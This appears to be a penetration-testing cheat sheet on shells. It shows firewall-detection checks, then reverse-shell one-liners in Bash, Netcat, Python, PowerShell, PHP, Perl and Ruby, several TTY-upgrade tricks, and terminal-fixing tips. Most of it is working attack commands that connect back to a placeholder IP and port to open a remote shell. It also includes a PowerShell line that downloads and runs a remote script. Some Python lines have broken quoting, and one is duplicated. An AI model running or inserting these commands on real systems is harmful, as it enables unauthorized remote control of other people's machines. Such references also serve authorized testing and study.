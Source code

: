 # General - Shells

### Detect firewalls

###### Incoming traffic blocking

###### Outgoing traffic blocking

Listen to ICMP traffic on host:

```bash
tcpdump -i <interface> icmp
```

On target, make ICMP "echo" requests using ping in **background** to prevent
shell lose in case of blocked ping:

```bash
ping -c 4 <IP> &
```
```python
python -c 'import os;  os.popen("ping -c 4 <IP> &");"
```

If ICMP packets are received but TCP packets aren't then TCP may be blocked.

### Bind Shells

TODO

### Reverse Shells

1. Setup a listener on host
```
nc -lvnp <PORT>
```
2. Execute reverse shell command  
**Bash**
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```
**Netcat**
```bash
# If nc e option:
nc -e /bin/sh <IP> <PORT> &
# Else:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```
**Python**
```python
# TCP
python -c 'import os;  os.popen("nc -e /bin/sh <IP> <PORT> &");"
python -c 'import os;  os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f &");"
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
**Powershell**
```powershell
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://<WEBSERVER_IP>:<WEBSERVER_PORT>/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>
```
**PHP**
```php
# This code assumes that the TCP connection uses file descriptor 3.
# If it doesn’t work, try 4, 5, 6…
php -r '$sock=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
```
**Perl**
```perl
perl -e 'use Socket;$i="<IP>";$p=<PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
**Ruby**
```ruby
ruby -rsocket -e'f=TCPSocket.open("<IP>",<PORT>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

3. (Get TTY)
```
/bin/sh -i
/bin/bash -i
echo os.system('/bin/bash')
-
# Python
python -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/sh")'
-
# Perl
perl -e 'exec "/bin/sh";'
-
# From within IRB
exec "/bin/sh"
-
# From within vi
:!bash
:set shell=/bin/bash:shell
-
# With nmap
!sh
```

4. (Get auto-completion and commands history)
  - Set host terminal to raw with echo unset:
  `*ctrl-z* stty raw -echo`
  - If TERM environment variable is not set on target shell:
  `*ctrl+z* echo $TERM`
  `*fg* export TERM=<TERM>`
